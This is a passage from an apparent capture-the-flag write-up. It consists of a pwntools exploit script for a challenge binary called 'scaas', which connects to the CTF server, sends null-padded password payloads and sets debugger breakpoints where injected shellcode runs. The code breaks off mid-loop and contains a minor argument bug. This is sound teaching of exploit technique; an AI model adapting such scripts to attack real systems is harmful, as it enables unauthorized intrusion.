 Let's send the payload now to the remote and get the flag:

```python
from pwn import *

context.binary = elfexe = ELF('./scaas')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target

gdbscript = '''
# init-gef

# CALL fgets()
hbreak *scaas+0xbd
command
    set $buffer=*(void**)$sp
    printf "Buffer: %p\\n", $buffer    
end

# CALL eax - i.e. invoke our shellcode
hbreak *scaas+0x168

# continue
'''.format(**locals())

if args['REMOTE']:
    io = remote('scaas-1.play.hfsc.tf', 1337)
else:
    io = start()

with open('solution.txt', 'r') as f:
    solution_input = [l.strip() for l in f.readlines()]

passwords = []
for i in range(3):
    passwords.append([])
    for j in range(5):
        digit = solution_input[i*5 + j]
        passwords[-1].append(digit)
print(passwords)

io.recvuntil(b'> ')
io.send(b'2\n')

def send_password(password):
    for i, digit in enumerate(password):
        io.recvuntil(f'Enter password {i}: '.encode('utf-8'))
        payload = str(digit).encode('utf-8')
        payload += b'\x00'*(40 - len(payload))
        print('Sending digit:' + digit)
        try:
            io.send(payload)
        except:
            print(io.recvall())
            io.interactive()

for i in range(3):
    io.recvline_startswith(b'Enter passwords for Stage ')
```